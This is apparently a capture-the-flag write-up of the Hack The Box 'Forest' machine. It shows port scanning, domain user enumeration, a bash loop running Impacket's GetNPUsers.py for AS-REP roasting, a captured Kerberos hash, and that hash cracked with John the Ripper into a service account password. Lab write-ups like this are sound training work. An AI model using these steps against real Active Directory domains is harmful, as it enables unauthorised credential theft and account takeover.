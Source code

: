 # Forest HTB

## Nmap

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49684/tcp open  unknown
49703/tcp open  unknown
49915/tcp open  unknown
```

![image](https://user-images.githubusercontent.com/5285547/124294786-fee12780-db4f-11eb-88e6-68fcfdd18055.png)

![image](https://user-images.githubusercontent.com/5285547/124294837-0e607080-db50-11eb-90a6-eed955859f71.png)

Add to /etc/hosts file

- Enum4linux 
- Users
```
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[noodle] rid:[0x1db2]
```

- ASREPRoast
- Users.txt
```
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco
```

- Quick and dirty bash script to use with users.txt 

```
#!/bin/bash

file="$1";

for user in $(cat "$file");do
        python3.9 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass \
  "htb.local/${user}" -dc-ip 10.10.10.161 ;
done
```

```
bash ASREPRoast.sh users.txt

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:136c3526a51157f1e7b050205902811c$f36282d5015687302ace5572a7265c7775000fdd0c83f4a5965dfdc129d028384fcf106744318f3c8d56f787074df01b336a97764532e9cc60c04b4f8c0c4984b6f2c44145b58eb12f3d80b273d8859ecd0d0b7e84842491990ddd17d90e46489b808798b43b157ea3d41998b5a55ac737a97cf7f1cd27a1ae871d1cde63148d12a0a4c45db0486b86c446f056759e77bf0a7cf5bae2c6bbd5bcbe4a646fdd903af7f751c4d187e98ab8dc0b4c2053c1a07947f2ee827789cec2dada31acf363d75ddaa6dcec80645223234ccdb18dae424c2140062ffc9ddcf7bd64938fd368b2d66fb56827
```

# Cracking the hash 

Adding the hash to a new file then using john to crack the Kerberos password

```
john -w=/usr/share/wordlists/rockyou.txt hash 
```

```
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:03 DONE (2021-07-02 16:37) 0.3289g/s 1344Kp/s 1344Kc/s 1344KC/s s4553592..s3r2s1
```

